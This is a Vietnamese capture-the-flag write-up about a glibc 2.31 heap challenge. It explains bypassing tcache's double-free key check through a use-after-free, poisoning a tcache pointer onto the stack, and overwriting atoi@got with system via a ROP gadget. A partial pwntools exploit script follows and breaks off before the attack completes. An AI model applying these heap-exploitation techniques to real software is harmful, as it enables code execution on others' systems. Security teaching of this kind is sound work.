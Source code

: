 check libc thì thấy libc ver là 2.31 -> có tcache và có luôn double-free check , nhưng ta lại có `uaf` nên có thể bypass `df` check này dễ dàng 

```
❯ strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.17) stable release version 2.31.
Compiled by GNU CC version 9.4.0.
__GNU_EH_FRAME_HDR

```

https://ir0nstone.gitbook.io/notes/binexp/heap/tcache-keys

- bài cho địa chỉ stack nên mình nghĩ là tận dụng double-free -> overwrite `fd` của tcache đến stack và `rop`

![image](https://hackmd.io/_uploads/Hka-Tzgzgl.png)

- ta có thể thử free 1 chunk để kiểm chứng , và có thể thấy key trỏ đến `tcache_perthread_struct` 

![image](https://hackmd.io/_uploads/SJQ7Azefxl.png)

- đi sâu vào `free` để kiếm chứng thì rõ ràng là nó sẽ check xem chunk đang được free đã được free hay chưa bằng cách check key 

![image](https://hackmd.io/_uploads/S1z9CMxMlg.png)

- vì vậy ta có thể tận dụng `uaf` để thay đổi key -> double-free vào stack , `got` bài này có thể ghi nên mình đơn giản là kiếm 1 gadget nào thay đổi được got và `add dword ptr [rbp - 0x3d], ebx ; nop ; ret` luôn là 1 người bạn thân =)))  , ta đặt rbp = got+0x3d và ebx đến `og` hoặc system , ở đây mình overwrite atoi@got bằng system 

exp: 

```python
def menu(option):
    sla(b"Enter your choice:", str(option).encode())


def add(size):
    menu(1)
    sla(b"would you like?", str(size).encode())


def free():
    menu(4)


def edit(data):
    menu(2)
    sla(b"like to write?", data)


def show_flag():
    menu(5)
    p.recvline()
    ru(b"value: ")
    stack_leak = int(p.recvline(), 16)
    return stack_leak


def exploit():
    input()
    add(256)
    stack_leak = show_flag()
    save_rbp = stack_leak - 0x18
    info(f"stack: {hex(stack_leak)}")
```